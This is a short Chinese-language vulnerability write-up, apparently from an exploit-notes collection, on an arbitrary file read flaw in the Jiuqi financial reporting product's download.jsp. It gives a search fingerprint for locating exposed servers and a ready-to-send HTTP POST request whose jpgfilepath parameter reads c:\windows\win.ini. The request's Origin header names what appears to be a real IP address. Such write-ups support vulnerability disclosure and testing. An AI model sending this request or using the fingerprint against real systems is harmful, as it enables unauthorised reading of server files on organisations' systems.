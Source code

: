 # 久其财务报表 download.jsp 任意文件读取漏洞

# 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

```
久其财务报表
```

## 网络测绘

```
body="/netrep/"
```

## 漏洞复现

登录路径如下



![](/images/202202101905343.png)



发送请求包



```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://114.251.113.53:7002
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```



![](/images/202202101905484.png)

